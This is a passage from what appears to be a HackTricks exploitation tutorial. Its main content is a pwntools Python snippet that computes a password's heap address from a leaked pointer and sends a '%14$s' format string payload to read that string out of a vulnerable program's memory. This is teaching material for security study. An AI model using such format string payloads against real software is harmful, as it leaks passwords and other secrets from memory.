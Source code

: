 ```python

# Offset calculated from the leaked position to the possition of the pass in memory
password_addr = heap_leak_addr + 0x1f7bc

print(f"Calculated address is: {hex(password_addr)}")

# At offset 14 we can control the addres, so use %s to read the string from that address
payload = f"%14$s|||".encode()
payload += p64(password_addr)

p.sendline(payload)
output = p.clean()
print(output)
p.close()
```

<figure><img src="broken-reference" alt="" width="563"><figcaption></figcaption></figure>

{{#include ../../banners/hacktricks-training.md}}
